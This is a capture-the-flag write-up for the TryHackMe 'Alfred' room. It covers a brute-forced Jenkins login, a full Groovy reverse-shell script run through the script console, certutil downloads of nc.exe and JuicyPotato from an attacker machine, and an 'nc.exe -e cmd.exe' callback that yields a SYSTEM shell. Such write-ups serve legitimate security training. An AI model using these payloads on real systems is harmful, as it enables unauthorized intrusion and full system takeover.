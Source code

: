 # Alfred [THM](https://tryhackme.com/room/alfred)
![alfred-01](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/alfred-01.png)

## Recon

Lets scan the target with `nmap`, however do note that the target doesnt respond to pings,
so we have to add the `-Pn` switch:

`nmap -sC -sV -A -p- -Pn 10.10.80.140 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/nmap-res-02.png)

We have the following: 

+ An IIS server on port 80. 
+ A Jetty server on port 8080.
+ RDP on port 3389. 

Looks like the IIS server on port 80 is a default site, still worth to take a quick look at it, maybe something is hidden there. After that we will focus on the Jetty server. 


### IIS port 80 


Lets open up our browser and navigate towards `http://10.10.80.140/`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/site-03.png)


Not much to see here, the email address may have revealed a username but nothing else here. 

I ran `ffuf` to try and find hidden content, but that came up empty. Also took a look at the source code, 
nothing there for us. I think its time to move to the Jetty server on port 8080. 



### Jetty port 8080

Lets navigate towards `http://10.10.80.140:8080/`

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/site-04.png)

We are prompted for credentials to login, no sign up link. Lets try brute forcing this, as Jenkins doenst 
impose any restrictions against this attack. 

I capture a login request in Burp, and send it to intruder: 

![login-req-05](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/login-req-05.png)


I then used a sniper attack for the admin account with `/usr/share/wordlists/john.txt`: 

![brute-06](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/brute-06.png)


Lets try to log in with `admin : admin`

![jenkins-07](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/jenkins-07.png)


Were in! Lets go to the script console: 

`http://10.10.62.32:8080/script`


![script-08](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/script-08.png)


From here we can use the following Groovy reverse shell:

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```


Make sure to update your IP and port. 

Then start a listener with:

`nc -lnvp 9009`

Execute the code in the script console:

![execute-09](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/execute-09.png)

This should give us shell access to the system: 

![shell-10](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/shell-10.png)


## Privilege Escalation


If we take a look at our user's group membership with:

`net user bruce`

![groups-11](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/groups-11.png)

We can see we are a part of the administrators group. This got me thinking about user privileges. 
So i decided to take a look with:

`whoami /priv`

![privs-12](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/privs-12.png)


we can see we have the `SeImpersonate` privilege, lets try a [potato attack](https://github.com/ohpe/juicy-potato/tree/master).

After you download the attack to your kali machine, make sure to grab a copy of `/usr/share/windows-resources/binaries/nc.exe` to your working directory as well. 

Then start a pyhton web server with:

`python3 -m http.server 80`

Then, on the target cd into bruce's home directory and download both `nc.exe` and `JuicyPotato.exe` with:

`certutil -urlcache -f http://kali-ip/nc.exe nc.exe`

`certutil -urlcache -f hrrp://kali-ip/Juicypotato.exe potato.exe`


Start the listener on yout kali with:

`nc -lnvp 9001`

And execute the following on the target:

`potato.exe -l 9001 -p C:\windows\system32\cmd.exe -a "/c c:\Users\bruce\nc.exe -e cmd.exe kali-ip 9001" -t *`


This should give you a shell as the system:

![root-13](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/root-13.png)


